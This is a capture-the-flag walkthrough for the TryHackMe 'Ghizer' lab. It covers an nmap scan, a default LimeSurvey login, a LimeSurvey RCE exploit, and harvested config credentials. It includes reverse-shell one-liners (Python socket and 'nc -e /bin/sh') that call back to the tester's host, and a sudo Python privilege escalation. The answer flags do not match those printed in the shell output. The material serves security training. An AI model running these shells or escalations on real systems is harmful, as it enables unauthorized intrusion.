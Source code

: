 # Ghizer

lucrecia has installed multiple web applications on the server.

[Ghizer](https://tryhackme.com/room/ghizerctf)

## Chủ đề của

- Network Enumeration
- Security Misconfiguration
- CVE-2018-17057 - LimeSurvey < 3.16
- Stored Passwords & Keys
- Abusing SUID/GUID

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Flag

Are you able to complete the challenge?
The machine may take up to 5 minutes to boot and configure

```
bibo318@parrot:~/CTFs/tryhackme/Ghizer$ sudo nmap -A -sS -sC -sV -O 10.10.106.146
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-11 17:18 CEST
Nmap scan report for 10.10.106.146
Host is up (0.032s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest, X11Probe:
|     220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
|     Please login with USER and PASS.
|   Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|_    220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: LimeSurvey http://www.limesurvey.org
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         LimeSurvey
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.4.2
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Ghizer &#8211; Just another WordPress site
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-23T17:27:31
|_Not valid after:  2030-07-21T17:27:31
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.80%I=7%D=10/11%Time=5F83224D%P=x86_64-pc-linux-gnu%r(NUL
SF:L,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x2
SF:03\.0\.3\)\n")%r(GenericLines,58,"220\x20Welcome\x20to\x20Anonymous\x20
SF:FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\
SF:x20USER\x20and\x20PASS\.\n")%r(Help,58,"220\x20Welcome\x20to\x20Anonymo
SF:us\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x2
SF:0with\x20USER\x20and\x20PASS\.\n")%r(GetRequest,58,"220\x20Welcome\x20t
SF:o\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please
SF:\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(HTTPOptions,58,"220\x2
SF:0Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n
SF:530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(RTSPReque
SF:st,58,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x
SF:203\.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n"
SF:)%r(RPCCheck,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20
SF:\(vsFTPd\x203\.0\.3\)\n")%r(DNSVersionBindReqTCP,58,"220\x20Welcome\x20
SF:to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Pleas
SF:e\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(DNSStatusRequestTCP,5
SF:8,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\
SF:.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(
SF:SSLSessionReq,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x2
SF:0\(vsFTPd\x203\.0\.3\)\n")%r(TerminalServerCookie,33,"220\x20Welcome\x2
SF:0to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%r(TLSSes
SF:sionReq,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsF
SF:TPd\x203\.0\.3\)\n")%r(Kerberos,33,"220\x20Welcome\x20to\x20Anonymous\x
SF:20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%r(SMBProgNeg,33,"220\x20We
SF:lcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%
SF:r(X11Probe,58,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(
SF:vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20P
SF:ASS\.\n")%r(FourOhFourRequest,58,"220\x20Welcome\x20to\x20Anonymous\x20
SF:FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\
SF:x20USER\x20and\x20PASS\.\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/11%OT=21%CT=1%CU=43159%PV=Y%DS=2%DC=T%G=Y%TM=5F8322
OS:F6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=7%ISR=106%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   30.98 ms 10.8.0.1
2   31.23 ms 10.10.106.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.89 seconds
```

[http://10.10.106.146/index.php/admin/authentication/sa/login](http://10.10.106.146/index.php/admin/authentication/sa/login)

[https://survey-consulting.com/how-to-restore-a-limesurvey-password/](https://survey-consulting.com/how-to-restore-a-limesurvey-password/)

`admin:password`

[http://10.10.106.146/installer/](http://10.10.106.146/installer/)

[LimeSurvey < 3.16 - Remote Code Execution ](https://www.exploit-db.com/exploits/46634)

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

```php
'username' => 'Anny',
                        'password' => 'P4$W0RD!!#S3CUr3!',
```

```
https://10.10.106.146/?devtools
```

`stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()`

`print new java.lang.Runtime().exec("nc 10.8.106.222 1337 -e /bin/sh")`

```
bibo318@parrot:~/CTFs/tryhackme/Ghizer$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.106.146] 40546
python -c "import pty; pty.spawn('/bin/bash')"
veronica@ubuntu:~$ cd ~
cd ~
veronica@ubuntu:~$ ls
ls
base.py  Documents  examples.desktop  Music     Public       Templates  Videos
Desktop  Downloads  ghidra_9.0        Pictures  __pycache__  user.txt
veronica@ubuntu:~$ cat user.txt
cat user.txt
THM{V0N318*****EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}
veronica@ubuntu:~$
```

`echo 'import pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py`

```
veronica@ubuntu:~$ rm -rf base.py
rm -rf base.py
veronica@ubuntu:~$ echo 'import pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py
<port pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py
veronica@ubuntu:~$ sudo /usr/bin/python3.5 /home/veronica/base.py
sudo /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# whoami
whoami
root
root@ubuntu:~# cd /root
cd /root
root@ubuntu:/root# ls
ls
Lucrecia  root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
THM{V0N318*****02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}
root@ubuntu:/root#
```

1. What are the credentials you found in the configuration file? example: user:password

`Anny:P4$W0RD!!#S3CUr3!`

2. What is the login path for the wordpress installation?

`/?devtools`

3. Compromise the machine and locate user.txt

`THM{V0N318*****EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD312**123:))}`

4. Escalate privileges and obtain root.txt

`THM{V0N318*****02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D912**123:))}`
